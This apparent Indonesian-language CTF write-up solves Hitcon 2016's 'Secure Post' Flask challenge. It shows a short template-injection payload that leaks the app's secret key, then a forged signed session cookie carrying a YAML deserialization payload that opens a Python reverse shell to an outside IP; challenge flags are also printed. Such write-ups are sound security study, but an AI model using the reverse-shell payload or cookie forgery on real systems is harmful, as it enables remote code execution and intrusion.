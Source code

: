 ```yaml
---
layout: post
title: "Hitcon 2016 : Secure Post"
description: "Hitcon 2016 : Secure Post"
headline: 
modified: 2016-10-10
category: Hitcon 2016
tags: [Hitcon 2016]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Here is a service that you can store any posts. Can you hack it?
http://52.198.91.29/

### Solution : 

Di berikan web service dengan flask. dan kita bisa mengakses source code nya di `http://52.198.91.29/source`

```python

from flask import Flask
import config

# init app
app = Flask(__name__)
app.secret_key = config.flag1
accept_datatype = ['json', 'yaml']

from flask import Response
from flask import request, session
from flask import redirect, url_for, safe_join, abort
from flask import render_template_string

# load utils
def load_eval(data):
    return eval(data)

def load_pickle(data):
    import pickle
    return pickle.loads(data)

def load_json(data):
    import json
    return json.loads(data)

def load_yaml(data):
    import yaml
    return yaml.load(data)

# dump utils
def dump_eval(data):
    return repr(data)

def dump_pickle(data):
    import pickle
    return pickle.dumps(data)

def dump_json(data):
    import json
    return json.dumps(data)

def dump_yaml(data):
    import yaml
    return yaml.dump(data)


def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)

def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }

    datatype = session.get("post_type", config.default_datatype)
    data = session.get("post_data", config.default_data)

    if datatype not in handlers: abort(403)
    return handlers[datatype](data)

def store_posts(posts, datatype):
    handlers = {
        "eval": dump_eval,
        "pickle": dump_pickle,

        "json": dump_json,
        "yaml": dump_yaml
    }
    if datatype not in handlers: abort(403)
    data = handlers[datatype](posts)

    session["post_type"] = datatype
    session["post_data"] = data


@app.route('/')
def index():
    posts = load_posts()
    return render_template('index.html', posts = posts, accept_datatype = accept_datatype)

@app.route('/post', methods=['POST'])
def add_post():
    posts = load_posts()

    title = request.form.get('title', 'empty')
    content = request.form.get('content', 'empty')
    datatype = request.form.get('datatype', 'json')
    if datatype not in accept_datatype: abort(403)
    name = request.form.get('author', 'anonymous')[:10]

    from datetime import datetime
    posts.append({
        'title': title,
        'author': name,
        'content': content,
        'date': datetime.now().strftime("%B %d, %Y %X")
    })
    session["name"] = name
    store_posts(posts, datatype)
    return redirect(url_for('index'))

@app.route('/source')
def get_source():
    with open(__file__, "r") as f:
        resp = f.read()
    return Response(resp, mimetype="text/plain")

```


### Secure Post 

pada fungsi `add_post` terlihat bahwa author name yang kita input akan di simpan ke dalam session.
`session["name"] = name` dan pada fungsi `render_template` session kita di ambil 10 karakter pertamanya
`name = session.get('name', 'anonymous')[:10]`. kemungkinan kita bisa melakukan template string injection.

namun kita tidak bisa menggunakan payload yang lebih dari 10 karakter awalnya kita coba 
"\{\{config.items()\}\} " tapi tidak menghasilkan apa karena > 10 karakter. dan setelah beberapa lama akhirnya di temukan flag dengan "\{\{config\}\}"
pas 10 karakter.

```html
<p class="lead blog-description"><Config {'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_PATH': None, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': None, 'USE_X_SENDFILE': False, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_HTTPONLY': True, 'SERVER_NAME': None, 'APPLICATION_ROOT': None, 'DEBUG': False, 'JSON_AS_ASCII': True, 'TESTING': False, 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'JSON_SORT_KEYS': True, 'LOGGER_NAME': 'post_manager', 'PREFERRED_URL_SCHEME': 'http', 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}', 'TRAP_BAD_REQUEST_ERRORS': False}>
```

### Secure Post 2

ada 2 fungsi yang menarik `store_posts` dan `load_posts` awalnya saya kira `eval` dan `pickle` 
bisa di manfaatkan dalam hal ini untuk membantu melakukan RCE. tapi setelah di lihat lagi kodenya 
memiliki beberapa checking yang sangat strict terhadap `eval` dan `pickle` 

pengecekan di sini `accept_datatype = ['json', 'yaml']` dan `load_posts` di comments
dan beberapa handlers seperti ini `if datatype not in handlers: abort(403)`
sehingga kita mustahil untuk memanfaatkan itu.

ternyata `YAML` sifatnya pun sama dengan pickle ketika melakukan unserialize
tapi untuk melakukan injeksi kita tidak bisa langsung melakukan via `add_post`
kita injeksi langsung ke dalam session flask tersebut. di website nya juga ada 
pesan `Data is not stored in database`. jadi post kita di simpan di dalam session Flask

tapi flask itu melakukan signed sama cookie nya jadi kita ngak bisa 
langsung rubah. untuk itu saya simulasikan dengan `secret_key` yang sama
untuk generate cookie payload yang kita inginkan

```python

class Exploit(object):
 def __reduce__(self):
   fd = 1
   return (exec,
           ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("128.199.226.218",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);',))
   

# dump utils
@app.route('/')
def index():
    anu = yaml.dump(Exploit())
    serializer_interface = SecureCookieSessionInterface()
    serializer = serializer_interface.get_signing_serializer(app)
    out = serializer.dumps({
    "name": "shit",
    "post_data": "- "+anu,
    "post_type": "yaml"
})

    print(out)
    return render_template('index.html', out=out)

```

kemudian kita injeksikan session payload ke web tersebut. sebelumnya
kita nyalakan listening pada server kita misalnya port: 4444 seperti
dalam exploit di atas.

[![asciicast](https://asciinema.org/a/6khdwmh6c607znru18kahziij.png)](https://asciinema.org/a/6khdwmh6c607znru18kahziij)

Flag : `hitcon{unseriliaze_is_dangerous_but_RCE_is_fun!!}`